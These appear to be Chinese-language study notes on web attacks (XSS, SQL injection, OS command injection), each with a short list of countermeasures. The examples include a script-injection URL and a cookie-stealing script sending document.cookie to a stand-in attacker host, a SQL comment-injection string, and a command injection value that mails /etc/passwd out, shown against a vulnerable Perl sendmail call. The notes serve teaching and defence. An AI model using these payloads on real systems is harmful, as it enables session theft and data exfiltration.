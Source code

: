 #### 跨站攻击脚本 (XSS)

##### 跨站攻击脚本

- 被动攻击;
- 攻击者预先设置陷阱代码, 诱导用户登录;
- 攻击者通过运行非法的 HTML 或 JS 进行攻击;

```bash
# URL 非法导入 js 脚本
# 用户一旦点击该 URL, 发送自身 cookie 至指定网站
http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"

# xss.js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

##### 防范措施

- 用户输入输出进行转义处理;
- 使用 CSP 技术;
- 输入值验证: 接受特定格式数据;

#### sql 注入攻击

- 服务器拼接 sql 存在漏洞;
- 攻击者构造非法 sql;
- 非法访问服务器资源;

```bash
# 正常情况
http://example.com/search?q= 上野宣
SELECT * FROM bookTbl WHERE author = ' 上野宣 ' and flag = 1;

# 构造非法 sql
# 访问到不应该访问的权限
http://example.com/search?q= 上野宣 ' --
SELECT * FROM bookTbl WHERE author =' 上野宣 ' - -' and flag=1;
```

#### os 命令注入攻击

- 服务器执行系统命令存在漏洞;
- 攻击者构造非法命令;

```bash
# 服务器调用命令行穿在安全漏洞
my $adr = $q->param('mailaddress');
open(MAIL, "¦ /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";

# 攻击者构造非法
; cat /etc/passwd ¦ mail hack@example.jp

# 系统执行命令
# ; 视为命令之间的分隔符, 导致非法执行 cat 之后的命令
¦ /usr/sbin/sendmail ; cat /etc/passwd ¦ mail hack@example.jp
```
